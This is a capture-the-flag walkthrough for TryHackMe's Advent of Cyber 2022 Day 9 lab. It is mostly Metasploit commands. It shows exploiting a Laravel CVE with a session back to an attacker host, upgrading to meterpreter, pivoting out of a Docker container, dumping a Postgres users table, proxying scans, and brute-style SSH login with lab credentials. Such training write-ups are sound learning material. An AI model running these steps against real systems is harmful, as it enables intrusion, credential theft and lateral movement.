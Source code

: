 # [Advent of Cyber 2022](https://tryhackme.com/room/adventofcyber4)

> Get started with Cyber Security in 24 Days - learn the basics by doing a new, beginner-friendly security challenge every day leading up to Christmas.

## Day 9: Dock the halls

scan the target

```
nmap -sV 10.10.249.228
```

![image](https://user-images.githubusercontent.com/90561566/206836994-a0fb95a9-acae-4ccf-ba35-ca6528a21ab3.png)

go to webpage, you will see it use Laravel framework

![image](https://user-images.githubusercontent.com/90561566/206840506-be217bdf-43cf-476f-9374-f90124b29f70.png)

search for exploit

![image](https://user-images.githubusercontent.com/90561566/206840698-57f8cc20-b922-498f-ba11-b61d7d792e8f.png)

```
msfconsole
```

![image](https://user-images.githubusercontent.com/90561566/206837648-bd28931c-0d84-4f9f-ade3-97692ff1269f.png)

type `info` and you will see cve here

![image](https://user-images.githubusercontent.com/90561566/206840790-4eede273-2564-40a2-b259-e541c3b1e38b.png)

```
set HttpClientTimeout 20
set rhosts 10.10.249.228
check
```

![image](https://user-images.githubusercontent.com/90561566/206837806-531454b0-ff76-47ea-80b5-e149fa8df684.png)

```
set lhost 10.8.0.74
run
```

![image](https://user-images.githubusercontent.com/90561566/206837939-35b425b2-0568-4b05-890b-43a01299d78d.png)

background the session

![image](https://user-images.githubusercontent.com/90561566/206837988-e6642782-7f7e-4a54-afa4-acd1c59a11b0.png)

update to meterpreter

```
sessions -u 1
sessions -i 2
```

![image](https://user-images.githubusercontent.com/90561566/206838093-8285c2ce-5860-45f9-9d5e-2c69a4c5bc90.png)

explore the application

![image](https://user-images.githubusercontent.com/90561566/206838159-9969a7e2-cdce-4ce3-a8dc-0d9f3081e70d.png)

![image](https://user-images.githubusercontent.com/90561566/206838186-643b9f42-691c-4d12-bfd1-5d21bff1b288.png)

resolve hostname to ip

```
resolve webservice_database
```

background session and config route table for pivoting

```
route add 172.28.101.51/32 2
```

![image](https://user-images.githubusercontent.com/90561566/206838345-54f3e8f8-8a20-4a40-b71b-2ac102b34280.png)

We can also see, due to the presence of the /.dockerenv file, that we are in a docker container. 

By default, Docker chooses a hard-coded IP to represent the host machine.

```
route add 172.17.0.1/32 2
```

dump the database schema

```
use auxiliary/scanner/postgres/postgres_schemadump
set rhosts 172.28.101.51
run
```

![image](https://user-images.githubusercontent.com/90561566/206839175-3d006527-4439-4a7f-8e43-9960f6d6fa9e.png)

```
use auxiliary/admin/postgres/postgres_sql
set rhosts 172.28.101.51
set database postgres
set sql 'select * from users'
run
```

![image](https://user-images.githubusercontent.com/90561566/206839428-c7603330-bbd1-4d31-82b7-c2bc8c8a269c.png)

create socks proxy

```
use auxiliary/server/socks_proxy
set srvhost 127.0.0.1
set srvport 9050
set version 4a
run
```

![image](https://user-images.githubusercontent.com/90561566/206839549-64059aea-be38-444c-ab6f-f9da523b2996.png)

now you can use proxy through

```
proxychains nmap -n -sT -Pn -p 22,80,443,5432 172.17.0.1
```

![image](https://user-images.githubusercontent.com/90561566/206839554-7ee40680-c4dd-49d0-8de1-8431fa20d1d6.png)

SSH into the host machine from the Docker container

```
use auxiliary/scanner/ssh/ssh_login
set username santa
set password p4$$w0rd
set rhosts 172.17.0.1
run
```

now interact with opened session to grab flag

![image](https://user-images.githubusercontent.com/90561566/206840056-96f5cd4d-5e12-43f3-a8bf-6053b31c7752.png)

Answer








